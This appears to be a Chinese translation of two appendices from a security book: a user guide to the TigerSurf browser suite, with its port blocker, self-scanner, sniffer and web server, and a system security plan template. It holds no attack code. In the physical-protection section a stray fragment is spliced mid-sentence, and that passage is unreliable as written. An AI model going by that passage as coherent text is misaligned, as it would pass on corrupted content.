

图 A.2 TigerSurf 主模块。



图 A.3 TigerSurf 的"文件"菜单选项。

- **另存为。** 将当前页面保存为网页文件到硬盘或软盘。
- **打印机设置。** 配置当前打印机设置。
- **打印当前页面。** 使用当前打印机设置打印当前页面。
- **退出并卸载。** 卸载 TigerSurf。

浏览器顶部的"编辑"菜单支持以下选项（图 A.4）：

- **剪切。** 将当前选中的文本剪切到 Windows 剪贴板。
- **复制。** 将当前选中的文本复制到 Windows 剪贴板。
- **粘贴。** 从 Windows 剪贴板粘贴（剪切或复制的）文本。
- **HTML 编辑器。** 加载 TigerSurf HTML 编辑器。

从浏览器顶部的"查看"菜单，支持以下选项（图 A.5）：



图 A.4 TigerSurf 的"编辑"菜单选项。



**图 A.5** TigerSurf 的"查看"菜单选项。

- **转到。** 导航到上一页、下一页、主页；或加载 TigerSearch。
- **停止。** 停止加载当前网页。
- **刷新。** 重新加载当前网页。
- **源代码。** 查看当前网页的源代码。

从浏览器顶部的"个人链接"菜单，支持以下选项（图 A.6）：

- **将当前页面添加到个人链接。** 将当前网页添加到你的收藏夹。
- **查看个人链接。** 显示你的个人链接数据库，你可以从中点击某个选项进行快速导航。

从浏览器顶部的"选项"菜单，提供以下选择（图 A.7）：



**图 A.6** TigerSurf 的"个人链接"菜单选项。



**图 A.7** TigerSurf 的"选项"菜单选项。

- **更改主页。** 将当前主页从 TigerTools.net 更改为其他偏好设置。
- **Internet 属性。** 显示你的高级 Internet 选项（图 A.8）。
- **安全属性。** 加载你的自定义 TigerWatch 设置；初始化/禁用 TigerBlock；并启动你的个人安全扫描器。

TigerSurf 工具栏上的下一个是"安全电子邮件"菜单，但其选项在此版本中不可用。紧接着是"工具"菜单，支持以下功能（图 A.9）：

- **TigerSearch 搜索 Internet。** 将 TigerSearch 作为独立模块加载。
- **TigerTrack 市场跟踪。** 将 TigerTrack 作为独立模块加载。
- **安全 FTP。** 加载 TigerSurf FTP 客户端程序。
- **安全 Telnet。** 加载 TigerSurf telnet 客户端程序。
- **屏幕截图。** 加载 TigerSurf 屏幕截图工具。
- **安全扫描。** 执行系统自扫描。
- **TigerHTML。** 加载 TigerSurf HTML 编辑器。
- **TigerTalk。** 实时聊天模块在此版本中不可用。

从浏览器顶部的"安全"菜单，你可以自定义 TigerWatch，启用/禁用 TigerBlock，并执行系统自扫描。从"安全"旁边的"帮助"菜单，你可以检查产品更新，导航到 TigerTools.net 主页，并查看当前的木马和病毒列表（图 A.10）。



**图 A.8** 高级 Internet 选项模块。



**图 A.9** TigerSurf 的"工具"菜单选项。

##### 图 A.10 TigerSurf 的"帮助"菜单选项。

TigerSurf 工具栏还提供了上述许多菜单项的快速启动按钮。这些按钮位于工具栏的右侧（图 A.11）。从左到右，它们执行以下功能：

- 启用/禁用有害代码拦截的安全浏览。此功能默认处于非活动状态，以允许弹出窗口和广告，但建议始终保持此功能处于活动状态。
- 加载 TigerTrack。
- 加载 FTP 客户端。
- 加载 Telnet 客户端。
- 开始屏幕截图。
- 加载图像查看器。
- 加载 TigerHTML 编辑器。
- 启动 TigerTalk（此版本中不可用）。
- 启动 TigerSurf 安全电子邮件（此版本中不可用）。

##### 图 A.11 TigerSurf 的快速启动按钮。



**图 A.12** TigerSurf 的 HTML 编辑器。

#### 功能定义

##### *HTML 编辑器*

使用 TigerSurf HTML 编辑器（图 A.12），你可以通过简单的界面快速创建网页。该程序支持插入图像、段落、链接、表单以及以下标签：

- Html
- Body
- Head
- Align
- Bullet
- Table
- Title

##### *TigerWatch*

TigerWatch（图 A.13）是一个自定义端口拦截器和监视器，供你酌情使用。TigerWatch 是 TigerGuard（在



**图 A.13** 使用 TigerWatch 创建自定义策略。

第 2 章中描述）的高级版本；它提供对大多数已知/未知木马服务的防护。该程序允许你将自定义端口添加到 TigerSurf 防护策略中。你还可以创建、加载和保存自定义策略列表以供将来检索。在其当前编译版本中，该守护进程根据你创建的策略，记录、拦截和警报远程黑客攻击。为了让你起步顺利，你可以预加载标准和默认策略列表。默认情况下，TigerWatch 最多接受 500 条自定义策略。

> TigerWatch 的设计初衷并非用于替代个人防火墙系统（如本书中提到的那些）。TigerWatch 旨在作为一种额外的安全措施，确保系统免受欺骗、本地或远程黑客攻击的封锁。

### TigerBlock

TigerBlock 是一个供家长和其他成年看护人员使用的网页控制系统。使用 TigerBlock，他们可以将在某些页面设置为禁止浏览，例如：仅成人网站和包含非法内容的网站。激活后，将显示以下警告：

**警告：网站被禁止，访问被拒绝**

你被重定向到此页面，因为你所在的公司或当前的法定监护人明确（在大多数情况下是合法地）禁止访问你尝试访问的网站。此外，18 岁以下的人士和可能因成人描写而感到冒犯的人士，不得直接或间接下载、获取、查看、阅读、收听或拥有任何照片、文本材料、广告或其他通信、消息或其他内容，或通过这些被禁止的网站获取。

如果你未满 18 岁，对此类材料感到冒犯，或代表任何政府机构行事，则你无权从任何此类网站下载任何材料，任何此类下载都将构成对这些材料权利的有意侵犯。

### 安全扫描

安全扫描（图 A.14）是一个具有简单用户界面的个人系统端口扫描器。正如本书以及之前*Hack Attacks Revealed, Second Edition*所述，扫描可利用的安全漏洞是为了探测尽可能多的端口，并跟踪那些对特定黑客攻击者具有接收性或可用性的端口。该扫描器程序会报告这些具有接收性的监听端口，并提供已知黑客方法的数据库以供进一步说明。



**图 A.14** TigerSurf 的个人系统安全扫描器。

### **TigerSearch**

该模块被开发为一个快速、安全的搜索引擎扫描器。使用方法很简单，只需输入一个或多个关键词，在你选择的搜索引擎上勾选结果（从 AltaVista、Excite、HotBot、InfoSeek、LookSmart、Lycos、Netscape、Thunderstone 和 Yahoo! 中选择），然后点击"搜索"按钮。片刻之后，结果模块将出现，并带有每个选定引擎的便捷标签导航（图 A.15）。在每个窗口中，你可以加载不同的站点。



TigerTrack 是另一个简洁的界面，用于追踪股票市场。此版本的 TigerSurf 支持单一股票代码搜索：您只需输入代码，即可通过图表和/或图形查看当前数据（图 A.16）。

### 安全 FTP

TigerSurf 安全 FTP 客户端（图 A.17）是一个简洁、安全的局域网/广域网/互联网文件传输接口模块。该程序支持匿名、注册和未知登录类型。



**图 A.17** TigerSurf 安全 FTP 站点。

TigerSurf 安全 Telnet 客户端（图 A.18）是一个简洁、安全的局域网/广域网/互联网 Telnet 访问接口模块。该程序支持自定义 Telnet 到任何指定的服务器/端口。它还具有追踪连接以进行故障排除和高级安全的功能。

### 屏幕捕获

TigerSurf 的屏幕捕获（图 A.19）功能是一个用户友好的工具，用于快速从互联网、程序、游戏等捕获图像。该程序支持从整个屏幕、表单和客户端区域捕获；以及暂停后捕获，还可以将图像打印并保存到硬盘或软盘。



**图 A.18** TigerSurf 的安全 Telnet 功能。



**图 A.19** TigerSurf 的屏幕捕获工具。



**图 A.20** TigerSurf 的图像查看器。

### 图像查看器

TigerSurf 的图像查看器（图 A.20）是一款出色的工具，用于从完整的生成缩略图列表中查看图像。您可以轻松追踪并加载使用 TigerSurf 屏幕捕获或几乎任何其他图形程序捕获的图像。此外，该工具还允许您加载所选图像进行快速编辑。

### TigerTalk

用于与其他 TigerTalk 用户进行实时即时通讯的安全聊天守护进程。

### TigerSniff

使用 TigerSniff，您可以通过本地端口和远程 IP 地址：端口监控所有传入的通信，包括隐形穿透。这意味着嗅探器将向您展示与您的系统的实际远程通信会话——即使是您的个人防火墙未报告的会话（例如，无论是半穿透黑客攻击还是本地发起的等）。嗅探器图标表示您的系统与远程系统之间的当前握手步骤，包括本地和远程端口。只需将鼠标悬停在特定图标上即可显示通信过程中的该步骤。例如：停止标志表示"等待中"，而网络图标表示"已建立"会话。

### Tiger Web 服务器

Tiger Web 服务器是一款企业级套件，适用于家庭和企业用户。它可用于任何拨号、xDSL、电缆、ISDN 或专线账户。该套件的开发目的是提供从 CD-ROM 访问 Web 服务器的功能，这意味着整个网站可以从 CD 运行。这为您提供了一种可靠的方式来保护自己免受网页黑客攻击，因为攻击者无法远程覆盖 CD-ROM 上的文件。

该程序的其他令人兴奋的功能包括：会话嗅探器、主动服务器监控、远程 Web 控制、CGI 处理（包括留言簿访问）、实时聊天、自定义 FTP 和 Telnet 模块，以及实时 IP 地址处理。

实时 IP 地址处理功能是独一无二的。拥有永久、临时或拨号互联网访问账户的用户可以随时随地提供专业 Web 服务器访问，无论您拥有多个拨号账户，每个账户在每次会话中提供不同的 IP 地址。该套件在有或没有域名服务的情况下均可工作。其他功能包括：

- 支持 CGI 处理和自定义留言簿的 Web 服务器守护进程。
- 实时 IP 地址处理器，可从任何连接配置提供互联网服务。
- 实时 IRC 聊天守护进程（最多 50 名用户），支持聊天者之间的文件传输功能（也非常适合商务会议）。
- 用于安全文件传输和操作控制的 FTP 和 Telnet 守护进程。
- 服务监控守护进程，能够在资源拥塞或服务故障时主动发出警报。
- 会话间谍嗅探器，管理员可以使用它监视、踢出和终止活动连接。
- 用于快速主页构建的个人 HTML 编辑器。
- 完整的 MUD 服务器。
- 自定义公告板系统。
- 简洁、用户友好的中央图形界面控制接口。

使用此程序，您可以（实时）追踪访客并监视他们的会话，甚至在必要时终止他们的连接。这是一款面向公司、家庭和个人的全方位通信软件包。游戏玩家也可以使用它将全球各地的 MUD 伙伴聚集在一起。家庭可以保持联系并轻松传输文件和图片；学生可以与他们在家中的朋友和家人通信。总之，当今市场上没有其他产品提供所有这些功能：

- 用于个人动态网页服务的实时 IP 地址处理，兼容拨号、ISDN、电缆、xDSL 和专线互联网连接，无论是否拥有注册域名。
- 不需要服务器级系统——仅需 Windows 9x、千禧版、2000 或 NT（资源要求极低，例如 16 MB 内存）。非常适合家庭、小型和中型企业预算有限的情况。
- 为了 guaranteed 安全性和移动性，服务器可以从 CD-ROM 运行。
- 任何人、任何地方都可以提供网页托管、带文件传输的实时聊天、FTP 和 Telnet 服务，并配有安全守护进程远程控制和会话间谍功能。

请访问 www.TigerTools.net 和/或 www.wiley.com，了解更多关于 Tiger Web Server 的可用性和订购选项的信息。

# 附录 B

## 安全计划模板

### 主要应用安全计划

#### 系统标识

日期

#### 系统名称/标题

分配给系统的唯一标识符和名称。

#### 负责机构

对应用负责的组织。

#### 信息联系人

了解系统或拥有系统的人员姓名。

- 姓名
- 职称
- 地址
- 电话
- 电子邮件

#### 安全责任分配

对系统安全负责的人员姓名。

- 姓名
- 职称
- 地址
- 电话
- 电子邮件

### 系统运行状态

如果选择了多个状态，请列出每个状态下涵盖的系统部分。

- 运行中
- 开发中
- 正在进行重大修改

#### 一般描述/用途

- 描述应用的功能或用途以及处理的信息。
- 描述应用从系统输入到系统输出的处理流程。
- 列出用户组织（内部和外部）以及提供的数据类型和处理。

#### 系统环境

- 提供技术系统的一般描述。包括任何引起特殊安全关注的环境或技术因素（拨号线、开放网络等）。
- 描述使用的主要计算平台以及主要系统组件，包括硬件、软件和通信资源。
- 包括保护系统和信息的安全软件。

#### 系统互连/信息共享

- 列出互连的系统和系统标识符（如适用）。
- 如果连接到未包含在安全计划中的外部系统，请提供关于需要考虑的安全顾虑的简短讨论。
- 在与其他系统连接和/或共享敏感数据/信息之前，获得书面授权。详细说明互连系统必须遵守的行为规则。将这些规则的描述包含在安全计划中，或在本节中讨论。

#### 影响系统的适用法律或法规

- 列出任何建立系统数据/信息保密性、完整性或可用性具体要求的法律或法规。

#### 信息敏感性的一般描述

- 概括描述系统处理的信息以及保护措施的必要性。将处理的信息与三种基本保护要求（保密性、完整性和可用性）相关联。对于这三个类别中的每一个，指明要求是：高、中或低。

- 包括对信息丢失、误用或未经授权访问或修改所导致风险和大小的估计声明。

#### 管理控制

##### 风险评估与管理

- 描述用于识别系统威胁和脆弱性的风险评估方法。包括审查进行的日期。如果没有系统风险评估，请包括完成评估的里程碑日期（月份和年份）。

##### 安全控制审查

- 列出过去三年内对系统进行的任何独立安全审查。
- 包括关于执行的安全评估类型、谁执行了审查、审查目的、发现以及由此采取的行动的信息。

### 行为规则

- 为每个系统书面制定一套行为规则。在用户使用系统之前，向他们提供行为规则。包括一个签名页，用户可以在上面确认收到规则。


 +   - 明确界定所有有权访问系统人员的职责和预期行为。说明不当行为或不遵守规定的后果。包括与其他系统互连的适当限制。
- 将系统行为规则作为附录附加，并在本节中引用附录编号，或将规则插入本节。

### 安全生命周期规划

+   - 确定系统或系统部分所处的生命周期阶段。
- 描述在当前所处的生命周期阶段中如何管理安全。

##### 启动阶段

+   - 引用"信息敏感性"部分中所述的敏感性评估。

##### 开发/采购阶段

+   - 在系统设计过程中，是否已识别安全需求？
- 是否在采购行动之前，制定了适当的安全控制措施及相关评估和测试程序？
- 招标文件（如建议书征集书）是否包含安全需求和评估/测试程序？
- 这些需求是否允许在识别出新威胁/漏洞以及实施新技术时更新安全需求？
- 如果应用程序是商业购买，或包含商用现成组件，是否在采购规范中识别并包含了安全需求？

##### 实施阶段

+   - 在将系统投入生产之前，是否进行了设计审查和系统测试？测试是否已记录？系统是否已通过认证？
- 自开发以来是否添加了安全控制措施？
- 应用程序是否经过技术评估，以确保其符合适用的联邦法律、法规、政策、指南和标准？
- 应用程序是否已通过认证和认可？认证日期是哪天？如果系统尚未获得授权，请说明提交认可请求的日期。

##### 运行/维护阶段

安全计划记录此阶段所需的安全活动。

##### 处置阶段

+   - 信息如何转移到另一系统，或进行归档、丢弃或销毁。讨论用于确保信息机密性的控制措施。

+   - 敏感数据是否加密？

+   - 如何从系统中清除和清除信息？

+   - 信息或介质是否已清除、覆写、消磁或销毁？

#### 授权处理

+   - 提供授权日期，以及授权在系统中进行处理的管理官员的姓名和职务。

+   - 如未授权，请提供请求批准运营的管理人员的姓名和职务以及请求日期。

### 运行控制

#### 人员安全

+   - 所有岗位是否均已审查其敏感级别？

+   - 个人是否接受了与其所分配岗位相适应的背景审查？

+   - 用户访问权限是否限制在履行工作所必需的最小范围内？

+   - 是否有请求、建立、发放和关闭用户账户的流程？

+   - 关键职能是否由不同人员分担（职责分离）？

+   - 是否有机制使用户对其行为负责？请描述。

+   - 友好和不友好的终止程序分别是什么？

#### 物理和环境防护

讨论应用处理区域采取的物理防护措施（如终端锁、建筑物和加工区域的物理屏障等）。需考虑的因素茶**用户支持也许你还需要**å是否有服务台或团队提供咨询并能及时响应安全事件？是否有记录如何识别、处理和报告事件和/或问题的程序？

+   - 防止未经授权人员读取、复制、篡改或窃取印刷或电子信息的过程。

+   - 确保只有授权用户才能领取、接收或交付输入和输出信息和媒体的程序。

+   - 敏感输入/输出的接收审计追踪。

+   - 限制访问输出产品的程序。

+   - 用于运输或邮寄媒体或印刷输出的程序和控制措施。

+   - 敏感性内部/外部标签（如《隐私法》、专有）。

+   - 带有特殊处理说明的外部标签（如日志/库存标识符、受控访问、特殊存储说明、发布或销毁日期）。

+   - 库存管理的审计追踪。

+   - 媒体存储库或档案馆—物理、环境保护控制/程序。用于对电子媒体进行消毒以便再次使用的程序（如覆写或消磁）。

+   - 对损坏媒体或无法有效消毒以便再次使用的媒体进行受控存储、处理或销毁的程序。

+   - 当硬拷贝媒体不再需要时，进行碎纸或采取其他破坏性措施的程序。

#### 应急计划

简要描述确保应用在支撑其运行的IT系统不可用时继续处理所遵循的程序（应急计划）。如果已完成正式的应急计划，请引用该计划。应急计划副本可作为附录附加。请包含以下描述：

+   - 任何备份处理协议。

+   - 记录的备份程序，包括频率（每日、每周、每月）和范围（完全备份、增量备份和差异备份）。

+   - 存储备份的位置和维护的代数。

+   - 是否有经过测试的应急/灾难恢复计划？测试频率如何？

+   - 所有员工是否都接受了与其在应急、灾难和应急计划中的角色和职责相关的培训？

+   - 备份程序的覆盖范围—正在备份什么？

#### **应用软件维护控制**

+   - 贵机构是否拥有该软件？是否从另一个办公室接收？

+   - 应用软件是否为版权保护的商用现成产品或共享软件？是否已获得适当许可；是否为所有系统购买了足够的副本？

+   - 是否有正式的变更控制流程；如果有，是否要求对应用软件的所有变更在投入生产之前进行测试和批准？

+   - 测试数据是实际数据还是虚构数据？

